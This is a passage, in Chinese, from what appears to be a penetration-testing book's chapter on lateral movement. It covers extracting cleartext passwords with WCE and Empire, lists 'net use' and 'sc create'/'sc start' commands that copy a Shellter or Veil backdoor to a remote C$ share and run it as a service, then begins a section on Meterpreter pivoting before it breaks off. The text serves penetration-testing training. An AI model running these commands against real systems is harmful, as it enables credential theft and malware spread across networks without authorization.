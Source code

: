 ![](img/B17765_11_22.png)

图 11.22：在旧版 Windows 设备上使用 WCE 提取明文密码

稍后，攻击者可以利用这些凭据横向移动到网络中，从而在多个系统上使用相同的凭据。此工具仅适用于 Windows XP、2003、7 和 2008 等旧系统。

渗透测试人员可以大量使用 PowerShell 的自动化 Empire 工具来执行特定于 Active Directory 和其他域信任和提权攻击，我们将在*第十二章*，*特权提升*中探讨这些攻击。

## 使用服务进行横向移动

如果渗透测试人员遇到没有 PowerShell 可调用的系统怎么办？在这种情况下，**服务控制**（**SCs**）将非常有用，用于在网络中执行横向移动，涵盖所有您访问或具有匿名访问共享文件夹的系统。

以下命令可以直接从命令提示符或通过 Meterpreter shell 运行：

+   `net use \\advanced\c$/user:advanced\username password`

+   `dir \\advanced\c$`

+   将使用 Shellter 或 Veil 创建的后门复制到共享文件夹中

+   创建一个名为`backtome`的服务

+   `Sc \\remotehost create backtome binpath="c:\xx\malware.exe"`

+   `Sc remotehost start backtome`

## 转向和端口转发

我们在*第九章*《绕过安全控制》中讨论了简单的端口转发方法，通过绕过内容过滤和 NAC。在本节中，我们将使用 Metasploit 的 Meterpreter 来进行转向和端口转发目标。

在 Meterpreter 上，在目标系统上的活动会话期间，攻击者可以使用相同的系统扫描内部网络。图 11.23 显示了一个具有两个网络适配器`192.168.0.119`和`192.168.52.129`的系统：
